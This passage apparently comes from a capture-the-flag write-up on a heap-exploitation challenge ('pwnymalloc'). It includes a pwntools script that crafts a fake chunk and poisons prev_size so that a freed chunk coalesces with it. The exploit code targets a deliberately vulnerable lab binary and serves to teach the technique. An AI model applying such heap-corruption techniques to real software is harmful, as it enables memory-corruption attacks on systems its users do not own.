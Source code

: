 however, we do not have the option to create, update and free as freely. and such we need to do create the chunk and fill in the data in one go.

```python
def idk(data):
    log.info('IDK-ing...')
    io.sendlineafter(b'>', b'1')
    io.sendafter(b'complaint:', data.ljust(0x48-1, b'\x00'))
    sleep(0.2)

def pwnymalloc(amount, data):
    sleep(0.2)
    log.info('Pwnymallocing...')
    io.sendlineafter(b'>', b'3')
    io.sendlineafter(b'refunded:', str(amount).encode())
    io.sendafter(b'request:', data.ljust(0x7f, b'\x00'))
    sleep(0.2)

    io.recvuntil(b'Your request ID is: ')
    return int(io.recvline().strip())

# creates A and fake chunk within it 
fake_chunk = b'\x00' * 0x40 + b'\xd0'
pwnymalloc(0x1, fake_chunk)

# creates B and poison `prev_size`
fake_prev = b'\x00' * 0x78 + b'\xd0'
pwnymalloc(0x2, fake_prev) 

# creates C and free C to coalesce with fake chunk
idk(b'doesnt matter')
```

looking at from a normal and non-malicious perspective, this is what our heap state before C is free'd

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>
